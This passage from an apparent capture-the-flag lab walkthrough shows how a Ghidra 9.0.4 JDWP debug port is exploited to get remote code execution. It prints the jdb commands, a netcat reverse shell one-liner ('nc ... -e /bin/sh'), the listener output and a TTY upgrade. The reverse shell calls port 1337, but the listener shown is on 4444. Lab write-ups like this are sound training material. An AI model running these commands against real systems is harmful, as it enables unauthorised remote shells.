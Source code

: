 ```python
python -c 'import pty;pty.spawn("/bin/bash")'
```
## # GHIDRA RCE
With the command **netsat -ano** we can see which web services are running at first glance we see **127.0.0.1:18001**.
We download and use linpeas on the victim machine and repeatedly see that Ghidra-9.0 is running
We need remote command to execute in GhidraDebug
We explored the vulnerabilities in ghidra and at first we saw the exploit [Ghidra (Linux) 9.0.4 - .gar Arbitrary Code Execution](https://www.exploit-db.com/exploits/47231) that needs a **project.gar** file which can be created in Ghidra from a project, but this exploit needs a interaction with the visual interface of Ghidra. We also found the Remote Code Execution Through JDWP Debug Port vulnerability which affects version 9.0.4. In this vulnerability, Ghidra opens JDWP in debug mode, which allows it to connect to port **18001** of localhost,We have access to the port (18001) locally with the current shell so we carry out the exploitation.

## # Commands RCE Ghidra
```shell
// Connection to jdwp

jdb -attach localhost:18001

// List available classes
// classpath

stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()

// Execution of the reverse shell

print new java.lang.Runtime().exec("nc iptun0 1337 -e /bin/sh")
```

```shell
❯ nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [10.10.221.248] port 4444 [tcp/*] accepted (family 2, sport 49890)
id
uid=1000(veronica) gid=1000(veronica) groups=1000(veronica),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
python -c 'import pty;pty.spawn("/bin/bash")'
veronica@ubuntu:~$ cat user.txt
```
We managed to get our flag **user.txt** and a shell with the user **Veronica**.

## # PRIVILEGE ESCALATION
We do a small enumeration in **Veronica's** main folder and we see a python script which encodes the **tryhackme is the best** message and also the variable could give us a clue of what we should do.

```python
import base64

hijackme = base64.b64encode(b'tryhackme is the best')
print(hijackme)
```
